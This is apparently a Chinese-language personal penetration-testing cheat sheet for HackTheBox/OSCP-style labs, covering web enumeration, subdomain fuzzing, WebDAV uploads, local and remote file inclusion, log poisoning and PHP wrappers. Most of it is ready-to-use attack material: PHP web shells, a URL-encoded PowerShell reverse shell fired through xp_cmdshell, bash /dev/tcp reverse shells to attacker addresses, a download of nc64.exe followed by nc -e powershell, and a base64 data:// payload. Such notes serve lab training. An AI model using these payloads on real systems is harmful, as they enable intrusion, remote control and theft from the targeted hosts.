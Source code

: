 HTTP（Hypertext Transfer Protocol）通信的默认端口
没有思路可以尝试从头枚举，使用不同的目录爆破工具

**如果有.git 目录暴露出来：可以使用**
```bash
wget -r http:/xxxxxxxxxx/.git/
然后进入目录使用 git show 就可以查看被修改过的数据内容

查找字符串: find * | grep -iR passw
```


**PHP cli server**
PHP 内置的命令行开发服务器 
```bash
php -S 127.0.0.1:80
```


**Apache 的配置文件夹，网站运行的所有者；开放在哪个端口**
```
/etc/apache2/sites-enabled
```


 **爆破子域名**
```
wfuzz -u [URL] -H "HOST: FUZZ.xxxxxxx" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw [xx]
```
例: `wfuzz -u https://streamio.htb -H "HOST: FUZZ.streamio.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 24 `

```bash
ffuf -u http://10.129.246.74 -H "Host: FUZZ.usage.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -ac
```


**Curl**
```bash
curl -X OPTIONS http://192.168.55.21/test/ -vv
```
-b 指定 Cookie 
-k 忽略证书
-d 设置 POST 请求中的数据


**webdav:**
```bash
检测webdav 
davtest -url <url> -auth user:password   
-auth+ 	Authorization (user:password)
-url+		url of DAV location

nikto显示： OPTIONS: WebDAV enabled (MKCOL LOCK COPY PROPPATCH PROPFIND UNLOCK listed as allowed).
```

```bash
cadaver <url> 
```
上传文件
```bash
put ./reverse-tcp-shell.php
```


**创建字典**
```bash
cewl URL [--with-numbers] > wordlists
```


**枚举和滥用 API**
Gobuster 爆破 API
- txt
```txt
{GOBUSTER}/v1
{GOBUSTER}/v2
```

```
gobuster dir -u <URL> -w <PATH> -p txt
```
可以枚举到 username，拼接路径继续爆破
```
<URL/xxx/v1/username/>
```


#### 脚本
枚举 YYYY-MM-DD-updata.pdf 类型的 URL , 并且指定关键词
```python
#!/usr/bin/env python3

import datetime
import io
import PyPDF2
import requests


t = datetime.datetime(2020, 1, 1)
end = datetime.datetime(2021, 7, 4)
keywords = ['user', 'password', 'account', 'intelligence', 'htb', 'login', 'service', 'new']
users = set()

while True:
    url = t.strftime("http://intelligence.htb/documents/%Y-%m-%d-upload.pdf")
    resp = requests.get(url)
    if resp.status_code == 200:
        with io.BytesIO(resp.content) as data:
            pdf = PyPDF2.PdfFileReader(data)
            users.add(pdf.getDocumentInfo()['/Creator'])
            for page in range(pdf.getNumPages()):
                text = pdf.getPage(page).extractText()
                if any([k in text.lower() for k in keywords]):
                    print(f'==={url}===\n{text}')
    t = t + datetime.timedelta(days=1)
    if t >= end:
        break

with open('users', 'w') as f:
    f.write('\n'.join(users)) 
```


**Windows Web 反弹 shell**
```powershell
3%3bexecute+xp_cmDshElL+'C%3a\windows\syswow64\windowspowershell\v1.0\powershell.exe+"$client+%3d+new-object+system.net.sockets.tcpclient(\"10.10.14.29\",443)%3b$stream+%3d+$client.getstream()%3b[byte[]]$bytes+%3d+0..65535|%25{0}%3bwhile(($i+%3d+$stream.read($bytes,+0,+$bytes.length))+-ne+0){%3b$data+%3d+(new-object+-typename+system.text.asciiencoding).getstring($bytes,0,+$i)%3b$sendback+%3d+(iex+$data+2>%261+|+out-string+)%3b$sendback2+%3d+$sendback+%2b+\"PS+\"+%2b+(pwd).path+%2b+\"^>+\"%3b$sendbyte+%3d+([text.encoding]%3a%3aascii).getbytes($sendback2)%3b$stream.write($sendbyte,0,$sendbyte.length)%3b$stream.flush()}%3b$client.close()"'%3b
```

**上传 shell 文件的时候一定要注意，IIS 无法执行 php 代码，可以选择 aspx 的 revshell**




# 文件包含 

直接执行反弹 shell 命令
```
data:text/plain,<?php passthru("bash -i >& /dev/tcp/X.X.X.X/4444 0>&1"); ?>
data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
```

读取文件
```bash
file:///etc/passwd
```

文件包含不起效果，尝试把 `?cmd=id` 换成 `&cmd=id`

**php 文件包含代码**
```php
<?php system($_GET['cmd']); ?>
<?php system($_REQUEST['cmd']); ?>
```

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```



- **获得 shell 拿 www-data , php 文件包含不起作用时**
可以尝试写入 
```bash
/var/crash
/var/tmp
?cmd 和 &cmd 都尝试一下
```


**本地文件包含可以考虑包含日志文件**
```
../../../../../../../../../var/log/apache2/access.log
/var/log/nginx/access.log
../../../../../../../../../xampp/apache/logs/access.log (windows)
```
访问一个站点，bp 抓包，修改 User-Agent，即存入日志文件   (直接 GET 在 URL 访问要包含的 php 代码也可以)
```bash
User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>

GET /xxx.php?file=<?php system($_GET['cmd']); ?> HTTP/1.1
```
再次包含日志文件就可以 RCE  **(注意使用& 而不是 ?)**
```
../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.229%2F2233%200%3E%261%22
```


**判断是否调用 curl , 如调用可以上传 php 代码执行:**
```
[curl] http://10.10.14.14/cmd.php -o uploads/cmd.php
```


- 包含用户家目录的 `.bash_history` ?


**本地文件包含+zip 上传：**
https://medium.com/@ardian.danny/oscp-practice-series-62-proving-grounds-zipper-b49a52ed8e38
创建一个 rev.php
```bash
<IP>//uploads/upload_1719737964.zip   (上传php文件后拿到路径名字)
zip://uploads/upload_1719737964.zip%23rev   (文件包含访问)   (不需要加.php后缀)
```


**wfuzz 模糊测试本地文件包含**
```bash
wfuzz -c -z file,/path/to/wordlist -u "http://target.com/page?file=FUZZ"
```


#### Windows
一般 LFI 测试的文件是 `C:\Windows\win.ini`

- shell.php
```php
system("powershell -c wget 10.10.14.14/nc64.exe -outfile \\programdata\\nc64.exe");
system("\\programdata\\nc64.exe -e powershell 10.10.14.14 2233");
```




如果尝试 RFI 无果，可以尝试
[0x34 Sniper (RFI shell,武器化.chm)](../../0x0B%20HackTheBox%20WP/靶机推荐第五组%2081-120暨内⽹和域渗透学习路径/0x34%20Sniper%20(RFI%20shell,武器化.chm).md)
修改/etc/samba/smb.conf 文件
```
[htb]
   comment = Test
   path = /srv/smb
   guest ok = yes
   browseable = yes
   create mask = 0600
   directory mask = 0700
```
![](photos/Pasted%20image%2020240311200806.png)
启动 smbd 服务
```
systemctl start smbd
```
URL 访问
```
http://10.129.229.6/blog/?lang=\\10.10.14.29\htb\1.txt
```
![](photos/Pasted%20image%2020240311201155.png)










##  php 伪协议
**读取文件 base64编码绕过**
```bash
php://filter/convert.base64-encode/resource=config.php
```

**执行 data 数据流命令**
```bash
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==

data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
```
